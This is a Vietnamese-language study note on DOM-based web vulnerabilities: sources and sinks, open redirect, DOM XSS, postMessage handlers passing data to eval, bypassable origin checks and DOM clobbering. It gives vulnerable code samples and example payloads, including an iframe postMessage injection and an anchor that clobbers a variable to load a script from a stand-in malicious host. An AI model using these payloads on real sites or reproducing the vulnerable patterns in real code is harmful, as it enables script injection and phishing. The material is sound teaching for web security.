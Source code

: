 # DOM-based vulnerabilities
- DOM: Cấu trúc dạng cây mà trình duyệt tạo ra để biểu diễn các phần tử trên trang web.
- JavaScript: Có thể thay đổi (thao tác) các phần tử DOM và thuộc tính của chúng. Đây là cách hoạt động bình thường của web hiện đại.
- Vấn đề bảo mật: Nếu JavaScript xử lý dữ liệu không an toàn → có thể bị lợi dụng.
- Lỗ hổng DOM-based: Xảy ra khi một giá trị do attacker kiểm soát (source) được đưa vào một hàm nguy hiểm (sink) trong JavaScript.

## Taint-flow vulnerabilities
- Nhiều lỗ hổng DOM-based xuất phát từ việc code phía client xử lý dữ liệu do attacker kiểm soát (tainted data) không an toàn.
- Taint flow: là luồng dữ liệu chảy từ source (điểm vào) đến sink (điểm nguy hiểm). Nếu đi qua không kiểm soát → sinh ra lỗ hổng.

### Sources
Sources là các thuộc tính/biến trong JavaScript mà attacker có thể tác động:
```
location.search → đọc query string từ URL.
document.referrer → URL giới thiệu.
document.cookie → cookies
Web messages (postMessage).
```
Nói chung bất cứ dữ liệu nào attacker chỉnh được đều là source.

### Sinks
Là hàm/thuộc tính nếu nhận dữ liệu attacker đưa vào sẽ gây hậu quả:
```
eval() → chạy chuỗi như code JS.
document.body.innerHTML → chèn HTML độc hại (XSS).
```
Nói chung là nơi xử lý dữ liệu mà không kiểm tra.

### Khi nào lỗ hổng xảy ra?
- Khi dữ liệu từ `source` → đưa thẳng vào `sink` mà 
- không được lọc/validate.
Đây là **DOM-based vulnerability** trong session của client.

**Ví dụ: Open Redirect**
```js
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
- `location.hash` là `source` (attacker chỉnh được qua #... trong URL).
- `location` là `sink` (nếu gán URL mới → trình duyệt tự chuyển hướng).

Attacker có thể gửi link:
```
https://www.innocent-website.com/example#https://www.evil-user.net
```
Khi nạn nhân click → bị `redirect` sang site độc hại → dùng để `phishing`.

### Common sources
Sau đây là các nguồn điển hình có thể được sử dụng để khai thác nhiều lỗ hổng taint-flow:
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

Các loại dữ liệu sau đây cũng có thể được sử dụng làm source để khai thác lỗ hổng luồng dữ liệu độc hại:
#### Reflected DOM XSS: 
- Server nhận request, đưa dữ liệu vào response ngay lập tức (không lưu), và trang chứa script xử lý dữ liệu đó trên client rồi ghi vào sink.
- Ví dụ minh họa: server trả `eval('var data = "reflected string"');` và sau đó script dùng data một cách không an toàn → XSS.
#### Stored DOM XSS: 
- Server lưu lại dữ liệu từ một request (ví dụ comment), rồi khi người dùng khác mở trang, server trả nội dung đã lưu đó trong response. Nếu page chứa script xử lý dữ liệu lưu trữ này mà không kiểm tra → sẽ gây DOM XSS.
- Ví dụ minh họa: `element.innerHTML = comment.author` - nếu `comment.author` chứa payload thì payload sẽ được chèn và thực thi.
#### Web messages:
- `postMessage()` cho phép iframe/parent gửi dữ liệu giữa các tài liệu; nếu trang nhận (receiver) xử lý message đó không an toàn, dữ liệu từ message trở thành source để tấn công DOM.

- Nếu message được chấp nhận mà không kiểm tra origin hoặc kiểm tra sai cách, handler có thể đưa dữ liệu đó vào một sink (ví dụ eval, innerHTML, location, v.v.) → dẫn tới DOM-XSS hoặc hành vi độc hại khác.

- Cách tấn công: 
    - Xét đoạn mã sau:
    ```html
    <script>
        window.addEventListener('message', function(e) {
        eval(e.data);   // <- sink nguy hiểm, không kiểm tra origin -> vulnerable
        });
    </script>
    ```
    - Đoạn này dễ bị tổn thương vì kẻ tấn công có thể chèn payload JavaScript bằng cách tạo iframe như sau:
    ```html
    <iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
    ```
    - Bởi vì event listener không xác minh `origin` của message, và `postMessage()` được gọi với `targetOrigin` là `"*"`, nên event listener chấp nhận payload và truyền nó vào sink — trong trường hợp này là hàm `eval()`.

---

**Origin verification**

Ngay cả khi listener có kiểm tra origin, bước kiểm tra đó có thể sai căn bản. Ví dụ:
```js
window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
```
Phương thức `indexOf` được dùng để cố gắng kiểm tra xem origin của web message đến có phải là domain `normal-website.com` hay không. Tuy nhiên, trong thực tế, nó chỉ kiểm tra xem chuỗi "normal-website.com" có xuất hiện ở bất kỳ vị trí nào trong URL origin hay không. Do vậy, kẻ tấn công có thể dễ dàng vượt qua bước kiểm tra này nếu origin của message độc hại là `http://www.normal-website.com.evil.net`

Lỗi tương tự cũng xảy ra với các kiểm tra dựa trên `startsWith()` hoặc `endsWith()`. Ví dụ, event listener sau đây sẽ cho origin `http://www.malicious-websitenormal-website.com` là an toàn:
```js
window.addEventListener('message', function(e) {
    if (e.origin.endsWith('normal-website.com')) {
        eval(e.data);
    }
});
```
---

**Những sink nào có thể dẫn đến lỗ hổng dựa trên DOM?**

| DOM-based vulnerability                      | Example sink |
|---------------------------------------------|--------------|
| DOM XSS                                      | `document.write()` |
| Open redirection                              | `window.location` |
| Cookie manipulation                           | `document.cookie` |
| JavaScript injection                          | `eval()` |
| Document-domain manipulation                  | `document.domain` |
| WebSocket-URL poisoning                       | `WebSocket()` |
| Link manipulation                              | `element.src` |
| Web message manipulation                       | `postMessage()` |
| Ajax request-header manipulation               | `setRequestHeader()` |
| Local file-path manipulation                   | `FileReader.readAsText()` |
| Client-side SQL injection                      | `ExecuteSql()` |
| HTML5-storage manipulation                     | `sessionStorage.setItem()` |
| Client-side XPath injection                    | `document.evaluate()` |
| Client-side JSON injection                     | `JSON.parse()` |
| DOM-data manipulation                          | `element.setAttribute()` |
| Denial of service                              | `RegExp()` |

## DOM clobbering

DOM clobbering là một kỹ thuật trong đó bạn chèn HTML vào một trang để thao túng DOM và cuối cùng thay đổi hành vi của JavaScript trên trang. DOM clobbering đặc biệt hữu ích trong những trường hợp không thể thực hiện XSS, nhưng bạn có thể kiểm soát một số HTML trên trang nơi thuộc tính id hoặc name được phép bởi bộ lọc HTML. Hình thức phổ biến nhất của DOM clobbering dùng phần tử anchor để ghi đè một biến global, biến này sau đó được ứng dụng sử dụng theo cách không an toàn, chẳng hạn để tạo URL script động.

**Ví dụ:**
```js
var someObject = window.someObject || {};
```
Nếu bạn có thể kiểm soát một phần HTML trên trang, bạn có thể clobber (ghi đè) tham chiếu `someObject` bằng một node DOM, chẳng hạn một anchor. Xem xét mã sau:
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

Để khai thác đoạn mã dễ bị tổn thương này, bạn có thể chèn HTML sau để clobber tham chiếu someObject bằng một phần tử anchor:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
Khi hai anchor sử dụng cùng một ID, DOM gom chúng lại thành một DOM collection. Vector DOM clobbering sau đó ghi đè tham chiếu `someObject` bằng collection DOM này. Thuộc tính `name` được dùng trên anchor cuối cùng nhằm clobber thuộc tính `url` của object `someObject`, khiến `script.src` trỏ tới một script ngoài (external) độc hại.